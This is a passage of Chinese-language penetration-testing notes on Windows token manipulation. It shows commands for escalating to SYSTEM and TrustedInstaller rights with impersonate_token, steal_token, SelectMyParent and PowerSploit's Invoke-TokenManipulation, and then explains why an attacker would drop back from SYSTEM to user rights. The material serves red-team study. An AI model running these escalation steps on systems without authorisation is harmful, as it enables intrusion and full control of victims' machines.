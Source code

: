 提权至 system 权限
```
impersonate_token "NT AUTHORITY\SYSTEM"
```

启动 trustedinstaller 服务
```
shell
sc start trustedinstaller
```

找到进程对应的 pid
```
ps
```

窃取 token
```
steal_token 7376
```

验证是否提权成功
```
shell
whoami /groups
echo aaa > C:Windows\servicing\1.txt
```

**SelectMyParent**

- https://github.com/3gstudent/From-System-authority-to-Medium-authority/blob/master/SelectMyParent.cpp

```
sc.exe start TrustedInstaller
SelectMyParent.exe cmd.exe 1700
```

**Invoke-TokenManipulation.ps1**

- https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1

```powershell
sc.exe start TrustedInstaller
$id  = Get-Process -name TrustedInstaller* | Select-Object id | ForEach-Object -Process{$_.id}
Invoke-TokenManipulation -CreateProcess "cmd.exe" -ProcessId $id
```

### 降权

**描述**

降权通常是指从system权限降到普通用户权限，往往是为了操作当前用户的文件内容（如捕获桌面、操作注册表等）

**相关文章**
- [渗透技巧——程序的降权启动](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E7%A8%8B%E5%BA%8F%E7%9A%84%E9%99%8D%E6%9D%83%E5%90%AF%E5%8A%A8)

**为什么要降权**
- 无法获得当前用户的文件内容
- 环境变量存在差异
    - system权限下，查询到的环境变量APPDATA为`C:\Windows\system32\config\systemprofile\AppData\Roaming`
    - 管理员权限下，查询到的环境变量APPDATA为`C:\Users\a\AppData\Roaming`
- 注册表存在差异
